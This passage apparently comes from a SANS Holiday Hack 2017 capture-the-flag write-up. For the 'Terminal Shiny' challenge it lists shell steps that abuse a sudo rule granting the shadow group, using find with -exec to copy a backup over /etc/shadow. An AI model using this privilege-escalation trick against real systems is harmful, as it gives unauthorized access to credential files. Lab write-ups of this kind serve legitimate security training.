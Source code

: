 <p align="left"> 
<img src= "https://github.com/johnnymedina/Sans-HolidayHack-2017/blob/master/Images/12-Terminalsugarplum-solved.png" width="50%">
</p>
<br/>

## Terminal Shiny
Needed to repair Shinny's server access but dont have root privledges BUT do have sudo.\
<p align="left"> 
<img src= "https://github.com/johnnymedina/Sans-HolidayHack-2017/blob/master/Images/13-Terminalshiny.png" width="50%">
</p>

1. sudo -ll
2. sudo -g shadow find /*/shadow.bak
3. man find and found it can execute a command with -exec
4. sudo -g shadow find /etc/shadow.bak -exec cp '{}' /etc/shadow \;
5. cd /usr/local/bin
6. ./inspect_da_box
